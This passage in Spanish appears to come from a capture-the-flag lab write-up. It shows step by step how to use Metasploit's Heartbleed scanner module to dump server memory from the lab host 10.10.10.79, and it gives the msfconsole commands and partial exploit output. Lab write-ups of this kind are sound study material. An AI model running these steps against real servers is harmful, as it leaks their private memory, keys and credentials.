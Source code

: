 Además, nos indica una **MAC** de, al parecer, un dispositivo **Apple**, qué raro, bien veamos si podemos descifrar la variable **text**.

<h2 id="Metas">Usando Módulo Auxiliar de Metasploit para Explotar Heartbleed</h2>

Dentro de **Metasploit** tenemos un módulo que podemos usar para identificar la vulnerabilidad **Heartbleed** y dumpear la memoria del servidor al mismo tiempo.

Vamos a sacarlo por pasos.

* Inicia **Metasploit**:
```bash
msfconsole
```

* Busca y usa el módulo de escaneo de **Heartbleed**:

```bash
msf6 > search heartbleed
-
Matching Modules
================
   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
   1  auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak
-
Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/ssl/openssl_heartbleed
-
msf6 > use 1
msf6 auxiliary(scanner/ssl/openssl_heartbleed) >
```

* Configura el módulo:
```bash
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 10.10.10.79
RHOSTS => 10.10.10.79
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set VERBOSE true
VERBOSE => true
```

* Activalo:
```bash
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > exploit
[*] 10.10.10.79:443       - Leaking heartbeat response #1
[*] 10.10.10.79:443       - Sending Client Hello...
[*] 10.10.10.79:443       - SSL record #1:
[*] 10.10.10.79:443       -     Type:    22
[*] 10.10.10.79:443       -     Version: 0x0301
[*] 10.10.10.79:443       -     Length:  86
[*] 10.10.10.79:443       -     Handshake #1:
[*] 10.10.10.79:443       -             Length: 82
...
```
La respuesta es mucho más larga, pero podemos ver la data en base64 que ya habiamos obtenido antes.
